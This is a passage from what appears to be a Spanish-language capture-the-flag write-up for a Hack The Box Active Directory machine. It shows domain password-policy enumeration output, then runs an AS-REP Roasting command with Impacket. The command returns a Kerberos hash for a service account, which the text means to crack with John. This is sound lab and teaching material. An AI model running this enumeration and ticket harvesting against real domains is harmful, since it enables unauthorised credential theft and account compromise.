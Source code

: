 ### Políticas

```c
 =========================================
|    Policies via RPC for 10.129.252.2    |
 =========================================
[+] Found policy:
Domain password information:
  Password history length: 24
  Minimum password length: 7
  Maximum password age: not set
  Password properties:
  - DOMAIN_PASSWORD_COMPLEX: false
  - DOMAIN_PASSWORD_NO_ANON_CHANGE: false
  - DOMAIN_PASSWORD_NO_CLEAR_CHANGE: false
  - DOMAIN_PASSWORD_LOCKOUT_ADMINS: false
  - DOMAIN_PASSWORD_PASSWORD_STORE_CLEARTEXT: false
  - DOMAIN_PASSWORD_REFUSE_PASSWORD_CHANGE: false
Domain lockout information:
  Lockout observation window: 30 minutes
  Lockout duration: 30 minutes
  Lockout threshold: None
Domain logoff information:
  Force logoff time: not set
```

## Explotación 


Como se cuenta con la lista de nombres de los **usuarios en el dominio**, se puede intentar realizar un ataque de **AS-REP Roasting**, esto con el fin de enumerar si existe algún usuario que sea un **SPN**, para poder conseguir su **ticket** e intentar romperlo con ayuda de **John**.
### Asreproasting

>**AS-REP Roasting** es un ataque en el que se obtienen tickets de autenticación de usuarios sin preautenticación habilitada, para intentar descifrarlos y obtener sus contraseñas.
{: .prompt-info}

Para validar esto, podemos hacer uso de **Impacket**, herramienta a la que le pasaremos la lista de usuarios y veremos si alguno nos devuelve el **ticket**.

```c
❯ impacket-GetNPUsers 'htb.local/' -usersfile userOrder.txt -no-pass -dc-ip 10.129.252.2  -request
Impacket v0.11.0 - Copyright 2023 Fortra

[-] User HealthMailboxc3d7722 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxfc9daad doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxc0a90c9 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox670628e doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox968e74d doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox6ded678 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox83d6781 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxfd87238 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxb01ac64 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox7108a4e doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox0659cc1 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB.LOCAL:322a9bdc853263e0e1c485b99d13f64d$85f8b9c7c96caa31debe539ba61cc4bd174e81c492de9d17edf822605a71981052fdf3d5c901ea330f92ac29348e55a152c0057f3a152f553adf953ee4e6528a8824bb856d358faa58a3df754fe02d38aedf3925acea84e664b5268407a35e2c39d33dd972b987adb2d93982503193fae1d9b34d83545054627c110106f97258997684bcb1d70e7f2e63884636393ddb33011088c00951dcbbc7fbeda64150e00553ec254603132d745abad1e65bdd9f1a6810b102ffb5265557a398e3fd1de57d22653efa7e30a412551f084309c44279be5d72b56dd3e53b9db7c3219e1a472fa6f570558a
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
```